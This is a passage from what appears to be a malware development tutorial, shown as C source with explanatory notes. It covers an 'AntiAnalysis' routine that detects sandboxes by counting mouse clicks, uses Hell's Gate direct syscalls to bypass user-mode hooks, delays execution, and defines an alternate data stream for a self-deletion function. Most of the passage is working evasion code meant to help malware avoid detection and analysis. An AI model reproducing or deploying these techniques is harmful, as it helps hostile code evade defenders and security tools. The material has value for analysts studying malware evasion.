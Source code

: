 ```c
		HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
		if ((STATUS = HellDescent(hThread, FALSE, &DelayInterval)) != 0 && STATUS != STATUS_TIMEOUT) {
			printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		HellsGate(g_Sys.NtClose.wSystemCall);
		if ((STATUS = HellDescent(hThread)) != 0) {
			printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		// Unhooking 
		if (g_hMouseHook && !UnhookWindowsHookEx(g_hMouseHook)) {
			printf("[!] UnhookWindowsHookEx Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Delaying execution for specific amount of time
		if (!DelayExecutionVia_NtDE((FLOAT)(i / 2)))
			return FALSE;

		// If the user clicked more than 5 times, we return true
		if (g_dwMouseClicks > 5)
			return TRUE;

		// If not, we reset the mouse-clicks variable, and monitor the mouse-clicks again
		g_dwMouseClicks = NULL;

		// Increment 'i', so that next time 'DelayExecutionVia_NtDE' will wait longer
		i++;
	}

	return FALSE;
}
```

`Common.h` must be updated to include the prototype for `AntiAnalysis` as well as defining `NEW_STREAM` which is required by the `DeleteSelf` function.

**Common.h**

```c
// The new data stream name
#define NEW_STREAM L":Maldev"

BOOL AntiAnalysis(DWORD dwMilliSeconds);
```

The anti-analysis features can be enabled by calling the `AntiAnalysis` function in `main.c`, however, this must be done after the `InitializeSyscalls` function has been called as the `AntiAnalysis` function utilizes direct syscalls which are only available after this function has been executed. For testing, the following if-statement is added to the main function in `main.c`.
